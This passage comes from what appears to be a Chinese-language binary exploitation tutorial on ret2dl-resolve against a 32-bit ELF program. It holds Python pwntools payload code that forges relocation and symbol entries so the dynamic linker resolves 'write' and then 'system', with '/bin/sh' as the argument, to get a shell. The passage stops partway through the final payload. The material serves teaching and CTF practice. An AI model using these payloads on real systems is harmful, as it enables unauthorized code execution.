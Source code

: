 - `ELF32_ST_BIND(0x12) = (((unsigned char) (0x12)) >> 4) = 0x1`，即 `#define STB_GLOBAL 1 /* Global symbol */`
- `ELF32_ST_TYPE(0x12) = ((0x12) & 0xf) = 0x2`，即 `#define STT_FUNC 2 /* Symbol is a code object */`
- `ELF32_ST_INFO(0x1, 0x2) = (((0x1) << 4) + ((0x2) & 0xf)) = 0x12`，即 st_info

下一步，是将 `st_name` 指向我们伪造的字符串 "write"，payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
st_bind = 0x1   # STB_GLOBAL -> Global symbol
st_type = 0x2   # STT_FUNC -> Symbol is a code object
st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_6 = "AAAA"
payload_6 += p32(plt_0)
payload_6 += p32(reloc_index)
payload_6 += "AAAA"
payload_6 += p32(1)
payload_6 += p32(base_addr + 80)
payload_6 += p32(len("/bin/sh"))
payload_6 += fake_reloc
payload_6 += "A" * align
payload_6 += fake_sym
payload_6 += "write\x00"
payload_6 += "A" * (80 - len(payload_6))
payload_6 += "/bin/sh\x00"
payload_6 += "A" * (100 - len(payload_6))

io.sendline(payload_6)
print io.recv()
```

最后，只要将 "write" 替换成任何我们希望的函数，并调整参数，就可以了，这里我们换成 "system"，拿到 shell：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)

st_name = fake_sym_addr + 0x10 - dynstr
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_7 = "AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += "AAAA"
```